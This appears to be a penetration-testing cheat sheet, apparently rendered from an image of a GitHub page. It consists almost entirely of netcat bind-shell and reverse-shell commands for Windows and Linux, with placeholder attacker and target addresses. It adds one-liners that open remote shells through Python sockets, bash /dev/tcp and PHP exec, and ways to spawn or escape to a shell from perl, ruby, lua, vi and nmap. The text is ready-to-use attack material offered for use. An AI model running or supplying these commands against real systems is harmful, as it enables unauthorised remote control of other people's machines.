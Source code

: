 ```bash
# Attacker machine
echo "Hello target" > test.txt
nc -nv <TARGET_IP> <TARGET_PORT> < test.txt
```

```bash
# BIND SHELL

## Target Win machine - Bind shell listener with executable cmd.exe
nc.exe -nvlp <PORT> -e cmd.exe
## Attacker Linux machine
nc -nv <TARGET_IP> <PORT>

## Target Linux machine - Bind shell listener with /bin/bash
nc -nvlp <PORT> -c /bin/bash
## Attacker Win machine
nc.exe -nv <TARGET_IP> <TARGET_PORT>
```

```bash
# REVERSE SHELL

## Attacker Linux machine
nc -nvlp <PORT>
## Target Win machine
nc.exe -nv <ATTACKER_IP> <ATTACKER_PORT> -e cmd.exe

## Attacker Linux machine
nc -nvlp <PORT>
## Target Linux machine
nc -nv <ATTACKER_IP> <ATTACKER_PORT> -e /bin/bash
```

```bash
# Spawn shells
python -c 'import pty; pty.spawn("/bin/sh")'
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<TARGET_IP>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
echo os.system('/bin/bash')
/bin/sh -i
bash -i >& /dev/tcp/<TARGET_IP>/4444 0>&1
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/<TARGET_IP>/4444 0>&1'"); ?>
/usr/bin/script -qc /bin/bash /dev/null
perl -e 'exec "/bin/sh";'
perl: exec "/bin/sh";
ruby: exec "/bin/sh"
lua: os.execute('/bin/sh')
IRB: exec "/bin/sh"
vi: :!bash
vi: :set shell=/bin/bash:shell
nmap: !sh
```
